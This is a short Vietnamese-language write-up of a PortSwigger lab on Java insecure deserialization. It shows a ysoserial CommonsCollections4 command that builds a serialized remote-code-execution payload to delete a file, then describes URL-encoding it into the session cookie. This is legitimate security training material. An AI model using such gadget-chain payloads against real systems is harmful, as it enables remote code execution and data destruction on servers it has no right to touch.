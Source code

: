 
# Target Goal: 

This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

# Recon: 

Sau khi login, ta sẽ có session được cấp: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/97c9aa2d-8baa-446c-9705-cd9fa67a36c1)

Thử đem đi dcode sang b64 ta nhận thấy đây là java serialize:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/b688681f-a34f-4d5d-b693-0a4b9e81e4e5)

Chúng ta cần sử dụng tool của bên thứ 3 .Và công cụ phổ biến để exploit Apache Common là `ysoserial`. `ysoserial` là 1 tool thường được dùng đẻ khai thác lỗ hổng liên quan đến Java deserialization tạo ra các object thông qua gadget chain ứng với thư viện có sẵn.
```
java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0 > cookie.txt

// Chỉ gói 4 mới hoạt độngh đúng payload của nó sâu khi sử dụng các gói khác
// -w 0 đảm bảo rằng chuỗi base64 được xuất ra trên một dòng duy nhất, không có ngắt dòng
```

Thay value apply lại web, và nó xuất hiện lỗi này:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/3988bea9-137e-4140-87cf-c66e78df27a9)

Lý do là vì có các byte chưa được xử lí đúng, đúng payload và encode URL:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/c3ea67f8-7ca4-4fa6-8bbf-209fd74aff58)

# Flag: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/72d569ee-83b6-45be-9792-ebaa5c28e23a)
